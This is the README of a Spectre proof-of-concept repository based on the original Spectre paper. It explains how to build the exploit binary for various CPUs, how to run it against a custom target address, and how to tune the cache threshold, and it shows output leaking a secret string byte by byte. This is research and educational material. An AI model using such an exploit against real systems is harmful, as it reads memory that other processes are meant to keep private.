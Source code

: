 # SpectrePoC

Proof of concept code for the Spectre CPU exploit.

## Attribution

The source code originates from the example code provided in the "Spectre Attacks: Exploiting Speculative Execution" paper found here:

https://spectreattack.com/spectre.pdf

The original source code used in this repository was conveniently provided by Erik August's gist, found here: https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6

The code has been modified to fix build issues, add workaround for older CPUs, and improve comments where possible.

## Building

The project can be built with GNU Make and GCC.

On debian these are included in the `build-essential` metapackage.

Building is as easy as:

`cd SpectrePoC`

`make`

The output binary is `./spectre.out`.

### Building for older CPUs

Depending on the CPU, certain instructions will need to be disabled in order for the program to run correctly.

The instructions in question are:

#### rdtscp:

Introduced with x86-64.
All 32-bit only CPUs, including many Core 2 Duos, will need to disable this instruction.

To build the project without `rdtscp`, define the NORDTSCP cflag:

`CFLAGS=-DNORDTSCP make` 

#### mfence:
Introduced with SSE2.
Most CPUs pre-Pentium 4 will need to disable this instruction.

To build the project without `mfence`, define the NOMFENCE cflag:

`CFLAGS=-DNOMFENCE make`

#### clflush
Introduced with SSE2.
Most CPUs pre-Pentium 4 will need to disable this instruction.

To build the project without `clflush`, define the NOCLFLUSH cflag:

`CFLAGS=-DNOCLFLUSH make`

#### Multiple cflags

To define multiple cflags, separate each cflag with an escaped space. For example:

`CFLAGS=-DNORDTSCP\ -DNOMFENCE\ -DNOCLFLUSH make`

#### SSE2 instruction set

To build the project without all of the above instructions introduced with SSE2, define NOSSE2 cflag:

`CFLAGS=-DNOSSE2 make`

### Building it without using the Makefile

If you want to build it manually, make sure to disable all optimisations (aka, don't use -O2), as it will break the program.

## Executing

To run spectre with default cache hit threshold of 80, and the secret example string "The Magic Words are Squeamish Ossifrage." as the target, run `./spectre.out` with no command line arguments.

**Example:** `./spectre.out`

The cache hit threshold can be specified as the first command line argument. It must be a whole positive integer.

**Example:** `./spectre.out 80`

A custom target address and length can be given as the second and third command line arguments, respectively.

**Example:** `./spectre.out 80 12345678 128`

## Tweaking

If you're getting lackluster results, you may need to tweak the cache hit threshold. This can be done by providing a threshold as the first command line argument.

While a value of 80 appears to work for most desktop CPUs, a larger value may be required for slower CPUs. For example, on a AMD GX-412TC SOC, a value of 100-300 was required to get a good result.

## Contributing

Feel free to add your results to the "Results" issue. Include your cache hit threshold, OS details, CPU details like vendor Id, family, model name, stepping, microcode, MHz, and cache size. The OS can be found by running `uname -a`. CPU info can be found by running `cat /proc/cpuinfo` on Linux, and `sysctl -a | grep machdep.cpu` on OSX.

## Example output

The following was output on an AMD GX-412TC SOC, with a cache hit threshold of 100:

`./spectre.out 100:`

```
Using a cache hit threshold of 100.
Build: RDTSCP_SUPPORTED CLFLUSH_SUPPORTED
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfedf8... Success: 0x54=’T’ score=2
Reading at malicious_x = 0xffffffffffdfedf9... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfedfa... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfedfb... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfedfc... Success: 0x4D=’M’ score=2
Reading at malicious_x = 0xffffffffffdfedfd... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfedfe... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfedff... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfee00... Success: 0x63=’c’ score=2
Reading at malicious_x = 0xffffffffffdfee01... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee02... Success: 0x57=’W’ score=2
Reading at malicious_x = 0xffffffffffdfee03... Success: 0x6F=’o’ score=2
Reading at malicious_x = 0xffffffffffdfee04... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfee05... Success: 0x64=’d’ score=2
Reading at malicious_x = 0xffffffffffdfee06... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee07... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee08... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfee09... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfee0a... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfee0b... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee0c... Success: 0x53=’S’ score=2
Reading at malicious_x = 0xffffffffffdfee0d... Success: 0x71=’q’ score=2
Reading at malicious_x = 0xffffffffffdfee0e... Success: 0x75=’u’ score=2
Reading at malicious_x = 0xffffffffffdfee0f... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfee10... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfee11... Success: 0x6D=’m’ score=2
Reading at malicious_x = 0xffffffffffdfee12... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfee13... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee14... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfee15... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfee16... Success: 0x4F=’O’ score=2
Reading at malicious_x = 0xffffffffffdfee17... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee18... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfee19... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfee1a... Success: 0x66=’f’ score=2
Reading at malicious_x = 0xffffffffffdfee1b... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfee1c... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfee1d... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfee1e... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfee1f... Success: 0x2E=’.’ score=2
```
